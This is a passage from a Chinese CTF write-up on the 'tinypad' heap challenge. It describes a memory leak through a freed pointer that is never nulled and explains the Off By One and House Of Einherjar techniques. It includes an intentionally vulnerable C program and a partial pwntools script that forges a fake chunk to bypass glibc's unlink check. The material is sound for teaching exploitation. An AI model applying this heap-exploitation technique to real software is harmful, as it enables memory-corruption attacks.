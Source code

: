 **2. 内存泄露**
> &nbsp;&nbsp;&nbsp;&nbsp;通过观察发现, 程序定了一个`tinypad`的数组, 数组存放在`0x6020140`.`Delete memo`时程序只是将`size`置为`0`,将`s`对应的堆地址释放, 并没有将`s`本身置为`NULL`, 而程序就是通过判断`s`是否为空来进行显示对应的数组内容, 于是存在内存泄露.

![result01](./01.png)

**３.缓冲区**

![result02](./02.png)

> &nbsp;&nbsp;&nbsp;&nbsp;通过上图分析, 程序会将`0x602040`作为一个编辑的缓冲去, 输入`Y`之后才会将输入内容复制到`s`对应的堆块中去.

**4.一个假设**

&nbsp;&nbsp;&nbsp;&nbsp;假如我们能够分配一个地址在`0x602040`附近, 那么我们就能通过分配足够的内存, 编辑`tinypad`数组的内容, 修改`s`指向的堆块, 实现任意地址读写.

### 知识点讲解
**1. Off By One**
> `Off By One`经常和`Hous Of Attack`之类的技巧组合在一起.

**2. House Of Einherjar**
> 该堆利用技术可以强制使得`malloc`返回一个几乎任意地址的`chunk`.其主要在于滥用`free`中的后巷合并操作.

**结论:** 二者配合使用, 可以发挥无穷威力.

**栗子**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);  
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```
对应的利用程序
```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");   
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
```